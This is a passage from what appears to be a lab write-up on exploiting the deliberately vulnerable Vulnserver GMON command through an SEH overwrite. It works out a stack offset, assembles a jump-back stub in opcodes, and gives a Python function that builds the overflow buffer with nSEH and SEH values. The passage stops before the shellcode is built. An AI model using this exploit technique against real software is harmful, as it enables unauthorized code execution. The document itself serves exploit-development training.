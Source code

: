 Furthermore we can observe that our stack pointer (ESP) is 0xD7EBBC when we enter our "D" buffer. 

![image-20200418210027690](/assets/images/vulnserver/GMON/image-20200418210027690.png)

Doing some simple maths we can see that 0xD7F201 - 0xD7EBBC is 0x645 bytes. 

- As an aside this is why doing a JMP short wouldn't work here as the offset is bigger that 128. 

Now that we know the offset we can get really crafty with out shellcode.

The first thing we do is save the ESP value which we can do by pushing it (push esp = opcode 54).

Next we pop EAX. This puts our saved ESP into the EAX register (pop eax = opcode 58)

The next step is key. We add our offset (0x645) to the AX register. This will add the value to our ESP thereby allowing us to climb up the stack while avoiding NULL bytes. (add ax,0x645 = 6605406)

Finally we jump EAX ( jmp ex = opcode FFE0).

The full sequence looks like this:

```assembly
00000000  54                push esp
00000000  58                pop eax
00000000  66054506          add ax,0x645
00000000  FFE0              jmp eax
```

Once we have all our opcodes we can put them in a new variable like so:

```python
def make_payload():
    prepend = b"GMON /.:/"
    pattern = b"A"*3531
    nseh = b"\xeb\x06\x90\x90"
    seh = b"\x5e\x19\x50\x62"
    yeet = b"\x54\x58\x66\x05\x45\x06\xff\xe0"
    buffer_space = 5000 - len(pattern) - len(nseh) - len(seh) - len(yeet)
    print(buffer_space)
    payload_struct = pattern + nseh + seh + yeet+ b'D'*buffer_space
    final_payload = prepend + payload_struct 
    return final_payload
```

### Payload

Now on to building the payload!
